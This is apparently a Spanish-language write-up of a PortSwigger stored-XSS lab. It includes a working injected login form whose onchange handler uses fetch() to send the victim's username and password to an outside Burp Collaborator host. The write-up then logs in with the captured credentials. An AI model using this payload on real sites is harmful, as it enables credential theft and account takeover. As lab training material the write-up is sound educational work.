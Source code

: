 ```yaml
---
title: "Exploiting cross-site scripting to capture passwords"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to capture passwords
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `exfiltrar` el `nombre de usuario` y la `contraseña` de la víctima, luego usar estas `credenciales` para `iniciar sesión` en la cuenta de la víctima

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS/](https://justice-reaper.github.io/posts/XSS/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-23/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-23/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-23/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-23/image_4.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags (HttpOnly y Secure)`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-23/image_5.png)

Debido a que podemos `inyectar código HTML` podemos `crear` un `formulario` y `aprovechar` el `autocompletado` del `navegador` para `obtener` las `credenciales`. En esta web [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete) nos `detalla` como podemos usar el `atributo autocomplete` y los `requerimientos necesarios` para que se `ejecute correctamente`. El `atributo autocomplete` a parte de `on` y `off` tiene varios valores interesante los cuales se pueden ver accediendo a la web mencionada anteriormente, entre estos valores están `username`, `nickname`, `new-password`, `current-password` y `email` entre otros. He creado este `formulario` se aprovecha del `autocompletado` del `navegador` para `obtener` las `credenciales` del `usuario administrador`

```
<form action="#" method="post">
  <input type="text" id="loginUsername" name="username" autocomplete="on" placeholder="Introduce tu nombre de usuario" required>
  <input type="password" id="loginPassword" name="password" autocomplete="on" placeholder="Introduce tu contraseña" required onchange="
    if(this.value.length) {
      fetch('https://7t1e3i5rp0jhqj79js8c833qchi8aw0kp.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: loginUsername.value + ':' + this.value
      });
    }
  ">
  <button type="submit">Enviar</button>
</form>
```

Una vez `publicado` este `comentario` nos vamos a `Burpsuite Collaborator` y `obtenemos` el `nombre` de `usuario` y la `contraseña` de los `usuarios`

![](/assets/img/XSS-Lab-23/image_6.png)

Pulsamos sobre `My account` y nos `logueamos` con las `credenciales`

![](/assets/img/XSS-Lab-23/image_7.png)

